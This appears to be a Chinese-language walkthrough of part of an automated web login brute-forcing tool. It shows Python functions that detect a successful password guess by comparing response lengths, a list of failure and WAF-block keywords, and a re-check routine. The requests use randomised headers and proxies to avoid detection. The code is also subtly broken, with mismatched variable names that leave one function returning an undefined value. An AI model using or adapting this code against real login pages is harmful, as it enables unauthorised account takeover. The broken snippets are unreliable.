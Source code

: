 ### 判断是否成功

原理就是先对两个错误请求的返回值进行比较，如果不同，则无法进行判断，退出爆破；如果相同，则记录下来作为判断的标准。

```python
def get_error_length(conn, path, data):
    data1 = data
    cookie_error_flag = 0
    dynamic_reg_len = 0
    data2 = str(data1.replace('%7Buser_name%7D', 'admin'))
    data2 = str(data2.replace('%7Bpass_word%7D', 'length_test'))
    res_test = conn.post(url=path, data=data2, headers=random_headers(), timeout=10, verify=False,
        allow_redirects=True, proxies=requests_proxies()) # 先请求一次
    res_02 = conn.post(url=path, data=data2, headers=random_headers(), timeout=10, verify=False,
        allow_redirects=True, proxies=requests_proxies())
    res_02.encoding = res_02.apparent_encoding
    res = conn.post(url=path, data=data2, headers=random_headers(), timeout=10, verify=False, allow_redirects=True,
        proxies=requests_proxies())
    res.encoding = res.apparent_encoding
    error_length_02 = len(res_02.text + str(res_02.headers))
    error_length = len(res.text + str(res.headers))
    if error_length_02 != error_length:
        cookies_error_flag = 1
    return error_length, cookie_error_flag, dynamic_req_len
```

根据黑名单判断，出现黑名单中的情况判定为爆破失败

```python
fail_words = ['密码错误', '重试', '不正确', '密码有误','不成功', '重新输入', 'history.back', '不存在', '登录失败', '登陆失败','出错', '已被锁定','history.go','安全拦截','还可以尝试','无效','攻击行为','创宇盾', '非法','百度云加速','安全威胁','防火墙','黑客', '不合法','warning.asp?msg=','Denied']
```

为了提高准确度，防止误报，还有重新检查的环节。就是再次把爆破出的帐号密码发送一次，将返回值与一个新的错误返回值进行对比，如果不同，则表示爆破成功。（为什么不使用前面记录下来的错误返回值进行对比，因为WAF的存在或其他因素的干扰会导致返回值的变化）

```python
def recheck(path, data, user_name, pass_word):
    data1 = data
    conn = requests.session()
    pass_word = str(pass_word.replace('{user}', user_name))

    data_test = str(data1.replace('%7Buser_name%7D', user_name))
    data_test = str(data_test.replace('%7Bpass_word%7D', 'length_test'))

    data2 = str(data1.replace('%7Buser_name%7D', user_name))
    data2 = str(data2.replace('%7Bpass_word%7D', pass_word))

    res_01 = conn.post(url=path, data=data_test, headers=random_headers(), timeout=10, verify=False,
                       allow_redirects=False, proxies=requests_proxies())
    res_02 = conn.post(url=path, data=data2, headers=random_headers(), timeout=10, verify=False,
                       allow_redirects=False, proxies=requests_proxies())
    res_01.encoding = res_01.apparent_encoding
    res_02.encoding = res_02.apparent_encoding
    error_length_01 = len(res_01.text+str(res_01.headers))
    error_length_02 = len(res_02.text+str(res_02.headers))

    if error_length_01 == error_length_02:
        return 0
    else:
        return 1
```

